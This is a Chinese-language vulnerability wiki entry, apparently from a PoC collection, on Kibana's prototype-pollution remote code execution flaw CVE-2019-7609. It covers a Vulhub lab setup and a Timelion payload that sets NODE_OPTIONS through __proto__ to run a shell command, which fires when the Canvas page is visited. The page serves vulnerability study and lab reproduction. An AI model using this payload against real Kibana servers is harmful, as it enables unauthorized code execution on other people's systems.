


# Kibana 原型链污染导致任意代码执行漏洞 CVE-2019-7609

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Timelion访问权限及Canvas触发；Node/Linux /proc环境；lab6.5.4
- 证据范围：污染环境属性并通过后续功能启动子进程；不是仅打开页面就无条件RCE

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 5.6/6.6两个分支修复边界需明确，当前文字含糊
- 缺身份认证/角色权限说明
- Kibana为可视化应用，不是数据库本身；需分类子类型
- Elasticsearch拼写错误；实验宿主sysctl是环境变更需单列

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 环境搭建

Vulhub启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```shell
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timelion”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```



成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：




---

> 来源：Threekiii/Awesome-POC
